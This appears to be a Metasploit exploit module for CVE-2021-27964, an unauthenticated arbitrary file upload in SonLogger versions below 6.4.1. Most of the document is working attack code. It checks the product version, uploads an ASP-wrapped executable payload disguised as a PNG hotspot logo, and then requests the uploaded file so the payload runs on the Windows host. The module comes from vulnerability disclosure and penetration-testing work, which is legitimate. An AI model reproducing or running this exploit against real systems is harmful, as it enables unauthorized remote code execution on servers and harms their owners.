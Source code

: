MSF EXP
-------

    ##
    # This module requires Metasploit: https://metasploit.com/download
    # Current source: https://github.com/rapid7/metasploit-framework
    ##
    class MetasploitModule < Msf::Exploit::Remote
      Rank = NormalRanking

      include Msf::Exploit::EXE
      prepend Msf::Exploit::Remote::AutoCheck
      include Msf::Exploit::Remote::HttpClient
      include Msf::Exploit::FileDropper

      def initialize(info = {})
        super(
          update_info(
            info,
            'Name' => 'SonLogger Arbitrary File Upload Exploit',
            'Description' => %q{
              This module exploits an unauthenticated arbitrary file upload
              via insecure POST request. It has been tested on version < 6.4.1 in
              Windows 10 Enterprise.
            },
            'License' => MSF_LICENSE,
            'Author' =>
              [
                'Berkan Er <b3rsec@protonmail.com>' # Vulnerability discovery, PoC and Metasploit module
              ],
            'References' =>
              [
                ['CVE', '2021-27964'],
                ['URL', 'https://erberkan.github.io/2021/SonLogger-vulns/']
              ],

            'Platform' => ['win'],
            'Privileged' => false,
            'Arch' => [ARCH_X86, ARCH_X64],
            'Targets' =>
              [
                [
                  'SonLogger < 6.4.1',
                  {
                    'Platform' => 'win'
                  }
                ],
              ],
            'DisclosureDate' => '2021-03-01',
            'DefaultTarget' => 0
          )
        )

        register_options(
          [
            Opt::RPORT(5000),
            OptString.new('TARGETURI', [true, 'The base path to the SonLogger', '/'])
          ]
        )
      end

      def check_product_info
        send_request_cgi(
          'uri' => normalize_uri(target_uri.path, '/shared/GetProductInfo'),
          'method' => 'POST',
          'data' => '',
          'headers' => {
            'Accept' => 'application/json, text/javascript, */*; q=0.01',
            'Accept-Language' => 'en-US,en;q=0.5',
            'Accept-Encoding' => 'gzip, deflate',
            'X-Requested-With' => 'XMLHttpRequest'
          }
        )
      end

      def check
        begin
          res = check_product_info

          unless res
            return CheckCode::Unknown('Target is unreachable.')
          end

          unless res.code == 200
            return CheckCode::Unknown("Unexpected server response: #{res.code}")
          end

          version = Gem::Version.new(JSON.parse(res.body)['Version'])

          if version < Gem::Version.new('6.4.1')
            CheckCode::Vulnerable("SonLogger version #{version}")
          else
            CheckCode::Safe("SonLogger version #{version}")
          end
        rescue JSON::ParserError
          fail_with(Failure::UnexpectedReply, 'The target may have been updated')
        end
      end

      def create_payload
        Msf::Util::EXE.to_exe_asp(generate_payload_exe).to_s
      end

      def exploit
        begin
          print_good('Generate Payload')
          data = create_payload

          boundary = "----WebKitFormBoundary#{rand_text_alphanumeric(rand(5..14))}"
          post_data = "--#{boundary}\r\n"
          post_data << "Content-Disposition: form-data; name=\"file\"; filename=\"#{rand_text_alphanumeric(rand(5..11))}.asp\"\r\n"
          post_data << "Content-Type: image/png\r\n"
          post_data << "\r\n#{data}\r\n"
          post_data << "--#{boundary}\r\n"

          res = send_request_cgi(
            'method' => 'POST',
            'uri' => normalize_uri(target_uri.path, '/Config/SaveUploadedHotspotLogoFile'),
            'ctype' => "multipart/form-data; boundary=#{boundary}",
            'data' => post_data,
            'headers' => {
              'Accept' => 'application/json',
              'Accept-Language' => 'en-US,en;q=0.5',
              'X-Requested-With' => 'XMLHttpRequest'
            }
          )
          unless res
            fail_with(Failure::Unreachable, 'No response from server')
          end

          unless res.code == 200
            fail_with(Failure::Unknown, "Unexpected server response: #{res.code}")
          end

          json_res = begin
            JSON.parse(res.body)
          rescue JSON::ParserError
            nil
          end

          if json_res.nil? || json_res['Message'] == 'Error in saving file'
            fail_with(Failure::UnexpectedReply, 'Error uploading payload')
          end

          print_good('Payload has been uploaded')

          handler

          print_status('Executing payload...')
          send_request_cgi({
            'uri' => normalize_uri(target_uri.path, '/Assets/temp/hotspot/img/logohotspot.asp'),
            'method' => 'GET'
          }, 5)
        end
      rescue StandardError
        fail_with(Failure::UnexpectedReply, 'Failed to execute the payload')
      end
    end